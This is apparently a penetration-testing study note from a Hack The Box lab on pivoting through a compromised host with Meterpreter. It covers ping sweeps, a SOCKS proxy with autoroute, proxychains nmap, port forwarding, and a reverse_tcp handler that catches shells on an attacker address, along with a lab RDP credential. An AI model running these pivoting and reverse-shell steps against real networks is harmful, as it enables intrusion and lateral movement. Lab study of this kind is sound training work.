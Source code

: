 ```yaml
---
title: Meterpreter Tunneling
draft: false
tags:
---
```

Let's say we have meterpreter shell on Ubuntu PivotHost. 

We can create pivot through meterpreter without SSH port forwarding. 

We want to interact with Windows machine that is connected to Ubuntu PivotHost

## Ping Sweep
### Meterpreter

```shell-session
meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23

[*] Performing ping sweep for IP range 172.16.5.0/23
```

### For loop Linux

```shell-session
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done

`time for i in $(seq 1 254); do (ping -c 1 192.168.122.${i} | grep "bytes from" &); done`
```
### For loop CMD

```cmd-session
for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"
```

### PowerShell 

```powershell-session
1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.15.5.$($_) -quiet)"}
```

## Meterpreter Tunneling

Let's first configure MSF's SOCKS proxy:

```shell-session
msf6 > use auxiliary/server/socks_proxy

msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
SRVPORT => 9050
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
SRVHOST => 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set version 4a
version => 4a
msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 0.

[*] Starting the SOCKS proxy server
msf6 auxiliary(server/socks_proxy) > options

Module options (auxiliary/server/socks_proxy):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The address to listen on
   SRVPORT  9050             yes       The port to listen on
   VERSION  4a               yes       The SOCKS version to use (Accepted: 4a,
                                        5)


Auxiliary action:

   Name   Description
   ----   -----------
   Proxy  Run a SOCKS proxy server
```

Above configuration starts a listener on port 9050 and route all the traffic recievd via our meterpreter session.

We can confirm the proxy server running as such:

```shell-session
msf6 auxiliary(server/socks_proxy) > jobs

Jobs
====

  Id  Name                           Payload  Payload opts
  --  ----                           -------  ------------
  0   Auxiliary: server/socks_proxy
```

Now that we have initiated the SOCKS server, we will configure proxychains to route traffic generated through our pivot on the compromised Ubuntu PivotHost.

Let's edit `/etc/proxychains.conf` as such:

```shell-session
socks4 	127.0.0.1 9050
```

We will now set up to route all the traffic via our meterpreter session using `post/multi/manage/autoroute`:

```shell-session
msf6 > use post/multi/manage/autoroute

msf6 post(multi/manage/autoroute) > set SESSION 1
SESSION => 1
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
SUBNET => 172.16.5.0
msf6 post(multi/manage/autoroute) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: linux
[*] Running module against 10.129.202.64
[*] Searching for subnets to autoroute.
[+] Route added to subnet 10.129.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.16.5.0/255.255.254.0 from host's routing table.
[*] Post module execution completed
```


We can confirm autoroute by checking the route being added to 172.16.5.0/23:

```shell-session
meterpreter > run autoroute -p

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   10.129.0.0         255.255.0.0        Session 1
   172.16.4.0         255.255.254.0      Session 1
   172.16.5.0         255.255.254.0      Session 1
```

Now we can use proxychains to route our nmap traffic via our Meterpreter session:

```shell-session
jadu101@htb[/htb]$ proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn

ProxyChains-3.1 (http://proxychains.sf.net)
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-03 13:40 EST
Initiating Parallel DNS resolution of 1 host. at 13:40
Completed Parallel DNS resolution of 1 host. at 13:40, 0.12s elapsed
Initiating Connect Scan at 13:40
Scanning 172.16.5.19 [1 port]
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19 :3389-<><>-OK
Discovered open port 3389/tcp on 172.16.5.19
Completed Connect Scan at 13:40, 0.12s elapsed (1 total ports)
Nmap scan report for 172.16.5.19 
Host is up (0.12s latency).

PORT     STATE SERVICE
3389/tcp open  ms-wbt-server

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.45 seconds
```

## Meterpreter Port Forwarding

We can use Metasploit's `portfwd` for port forwarding. 

We will set up a listener on our attacker host and request meterpreter to forward all the packets received on this port via our meterpreter sessions to a remove host. 

```shell-session
meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19

[*] Local TCP relay created: :3300 <-> 172.16.5.19:3389
```

Above starts a listener on attacker host's port 3300 and forward all the packets to the remote Windows server on port 3389. 

So we can now execute xfreerdp on attacker host's port 3300. 

```shell-session
jadu101@htb[/htb]$ xfreerdp /v:localhost:3300 /u:victor /p:pass@123
```


## Meterpreter Reverse Port Forwarding

We will start a listener on attacker host (port 8081). 

Ubuntu PivotHost server will forward all requests received on port 1234 to attacker host's port 8081.

```shell-session
meterpreter > portfwd add -R -l 8081 -p 1234 -L 10.10.14.18

[*] Local TCP relay created: 10.10.14.18:8081 <-> :1234
```

Or to start a new session:

```shell-session
meterpreter > bg

[*] Backgrounding session 1...
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 8081 
LPORT => 8081
msf6 exploit(multi/handler) > set LHOST 0.0.0.0 
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:8081 
```
